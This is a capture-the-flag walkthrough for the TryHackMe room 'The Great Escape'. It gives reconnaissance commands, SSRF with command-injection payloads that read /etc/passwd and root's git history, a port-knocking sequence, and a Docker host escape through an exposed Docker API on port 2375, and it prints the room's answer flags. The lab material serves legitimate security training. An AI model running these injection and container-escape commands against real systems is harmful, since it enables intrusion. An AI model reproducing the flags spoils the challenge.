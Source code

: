 # <div align="center">[The Great Escape](https://tryhackme.com/r/room/thegreatescape)</div>
<div align="center">Our devs have created an awesome new site. Can you break out of the sandbox?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/aff860f5-44b7-4b8e-bb43-0f47a4c04e23" height="200"></img>
</div>


## Task 2. A Simple Webapp
Start off with a simple webapp. Can you find the hidden flag?
### Find the flag hidden in the webapp
```
THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

* ```nmap -sSCV -p- <IP>```
* ```gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt```
* ```curl http://<IP>/.well-known/security.txt```
* ```curl -I http://<IP>//api/fl46```

## Task 3. Root! Root?
```


```
```
curl http://<IP>/robots.txt
http://<IP>/exif-util

http://<IP>/api/exif?url=http://api-dev-backup:8080
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat /etc/passwd
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat ~/dev-note.txt
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /root
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root log
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```

## Task 4. The Great Escape
You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

Find the real root flag
```
THM{c62517c0cad93ac93a92b1315a32d734}
```
```
cd /opt
sudo git clone https://github.com/grongor/knock.git
cd knock
./knock <IP> 42 1337 10420 6969 63000
nmap <IP> -p 2375
sudo nano /etc/docker/daemon.json
sudo systemctl stop docker
sudo systemctl start docker
docker -H <IP>:2375 images
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
exit
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash
cd /root
ls
cat flag.txt
```
